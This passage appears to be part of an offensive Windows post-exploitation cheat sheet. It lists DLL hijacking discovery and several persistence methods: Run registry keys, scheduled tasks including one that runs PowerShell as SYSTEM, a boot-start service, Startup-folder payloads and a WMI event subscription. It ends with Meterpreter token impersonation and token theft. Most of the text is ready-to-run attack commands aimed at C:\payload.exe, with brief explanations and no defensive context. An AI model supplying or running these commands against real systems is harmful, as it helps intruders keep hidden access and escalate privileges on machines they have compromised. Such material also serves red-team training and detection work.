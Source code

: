 **DLL Hijacking Opportunities**
```bash
where /q wlbsctrl
Dependency Walker (depends.exe)
Process Monitor
```
Identify missing DLLs in search path for hijacking.

### Persistence Installation

**RUN Registry Key**
```bash
reg ADD HKCU\Software\Microsoft\Windows\CurrentVersion\Run /V TaskName /t REG_SZ /D C:\payload.exe /f
reg ADD HKLM\Software\Microsoft\Windows\CurrentVersion\Run /V Service /t REG_SZ /D C:\payload.exe /f
```
Add persistence via HKCU/HKLM Run keys. Executes at every user/system login.

**Scheduled Task**
```bash
schtasks /Create /F /SC MINUTE /MO 5 /TN Maintenance /TR "cmd /c whoami > C:\temp\output.txt"
schtasks /Create /F /SC DAILY /ST 09:00 /TN BackupTask /TR C:\payload.exe
schtasks /Create /F /SC ONLOGON /TN UserTask /TR powershell.exe /RU SYSTEM
```
Create scheduled tasks for recurring execution.

**Windows Service**
```bash
sc create ServiceName binpath= "C:\payload.exe" start= auto depend= tcpip
sc start ServiceName
sc query ServiceName
```
Install persistent Windows service running at boot with SYSTEM privileges.

**Startup Folder**
```bash
copy payload.exe "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup\"
copy payload.vbs "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup\"
```
Add executable to startup folder for user login persistence.

**WMI Event Subscription**
```bash
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="Persistence",EventNamespace="root\cimv2",QueryLanguage="WQL",Query="SELECT * FROM __InstanceModificationEvent WHERE TargetInstance ISA 'Win32_PerfFormattedData' AND TargetInstance.Name='PerfOS'"
```
Create WMI event subscriptions for persistence.

### Privilege Escalation Exploitation

**Token Impersonation**
```bash
use incognito
list_tokens -u
impersonate_token DOMAIN\\USER
steal_token PID
```
Steal and impersonate user authentication tokens.
